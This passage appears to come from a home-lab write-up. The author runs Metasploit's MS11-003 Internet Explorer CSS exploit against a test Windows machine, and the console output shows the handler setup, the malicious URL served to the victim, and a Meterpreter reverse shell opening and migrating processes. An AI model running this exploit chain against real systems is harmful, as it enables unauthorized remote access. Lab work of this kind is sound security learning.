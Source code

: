 All right, first I start the handler on my attacking machine:

``` plain
msf exploit(ms11_003_ie_css_import) > run -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.80.155:4444 
[*] Using URL: http://0.0.0.0:8080/Br8CNFRY
msf exploit(ms11_003_ie_css_import) > [*] Local IP: http://192.168.80.155:8080/Br8CNFRY
[*] Server started.
```

Then on the victim, I disabled WIndows Firewall and then I used Internet Explorer (ugh) to go to the URL <code>http://192.168.80.155:8080/Br8CNFRY</code>. And on my Kali machine, a Meterpreter session was opened:

``` plain
msf exploit(ms11_003_ie_css_import) > [*] 192.168.80.128   ms11_003_ie_css_import - Received request for "/Br8CNFRY"
[*] 192.168.80.128   ms11_003_ie_css_import - Sending redirect
[*] 192.168.80.128   ms11_003_ie_css_import - Received request for "/Br8CNFRY/RHHy0H.html"
[*] 192.168.80.128   ms11_003_ie_css_import - Sending HTML
[*] 192.168.80.128   ms11_003_ie_css_import - Received request for "/Br8CNFRY/generic-1465040907.dll"
[*] 192.168.80.128   ms11_003_ie_css_import - Sending .NET DLL
[*] 192.168.80.128   ms11_003_ie_css_import - Received request for "/Br8CNFRY/\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A"
[*] 192.168.80.128   ms11_003_ie_css_import - Sending CSS
[*] Sending stage (957487 bytes) to 192.168.80.128
[*] Meterpreter session 5 opened (192.168.80.155:4444 -> 192.168.80.128:49281) at 2016-06-04 07:48:33 -0400
[*] Session ID 5 (192.168.80.155:4444 -> 192.168.80.128:49281) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (2772)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 988
[+] Successfully migrated to process 
```

I actually closed IE on the Windows machine because it kept requesting the DLL and opening more sessions. Now it's time to go to the newly created Meterpreter session:

``` plain
msf exploit(ms11_003_ie_css_import) > sessions

Active sessions
===============

  Id  Type                   Information                                Connection
  --  ----                   -----------                                ----------
  5   meterpreter x86/win32  WIN-D7GA2J1M0TU\wingoat @ WIN-D7GA2J1M0TU  192.168.80.155:4444 -> 192.168.80.128:49281 (192.168.80.128)

msf exploit(ms11_003_ie_css_import) > sessions -i 5
[*] Starting interaction with 5...
```
